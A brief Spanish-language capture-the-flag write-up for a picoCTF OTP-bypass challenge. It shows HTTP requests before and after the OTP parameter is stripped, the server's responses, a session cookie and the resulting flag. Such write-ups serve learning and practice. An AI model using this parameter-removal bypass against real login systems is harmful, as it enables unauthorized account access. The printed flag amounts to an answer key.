 
## Descripción 

## Hints
1. Try using burpsuite to intercept request to capture the flag.
2. Try mangling the request, maybe their server-side code doesn't handle malformed requests very well.
## Solución
```
ANTES
Referer: http://titan.picoctf.net:53684/dashboard
Cookie: session=.eJw1jcsOwiAQRX-lYe2ClwXcGd36Dc2UobGWQgM0xhj_3YmJy3vu68383F7sxNBDWnAGdmC-lmloeQmJuBFHa_vRCFDInZH9KNVkg0Hdc2e59IjKGyepN-0xDgnWQLUrpDnEDuKCKULnIWMHWB-ecrltlLA0ZjTJDWp95oLEhFQ_cs8pDGlfx1CIKim0E5JrS95eQ_l_nG8X9vkCXfA5yA.aNsL2A.kpBxcsxXUsOhZ_l5MKeshc0K7yY
Upgrade-Insecure-Requests: 1
Priority: u=0, i

otp = Otp 

DESPUES 
Referer: http://titan.picoctf.net:53684/dashboard
Cookie: session=.eJw1jcsOwiAQRX-lYe2ClwXcGd36Dc2UobGWQgM0xhj_3YmJy3vu68383F7sxNBDWnAGdmC-lmloeQmJuBFHa_vRCFDInZH9KNVkg0Hdc2e59IjKGyepN-0xDgnWQLUrpDnEDuKCKULnIWMHWB-ecrltlLA0ZjTJDWp95oLEhFQ_cs8pDGlfx1CIKim0E5JrS95eQ_l_nG8X9vkCXfA5yA.aNsL2A.kpBxcsxXUsOhZ_l5MKeshc0K7yY
Upgrade-Insecure-Requests: 1
Priority: u=0, i

RESULTADO ANTES
Invalid OTP

RESULTADO DESPUES
Welcome, DAMC you sucessfully bypassed the OTP request. 
Your Flag: picoCTF{#0TP_Bypvss_SuCc3$S_b3fa4f1a}
```
## Notas

## Referencias
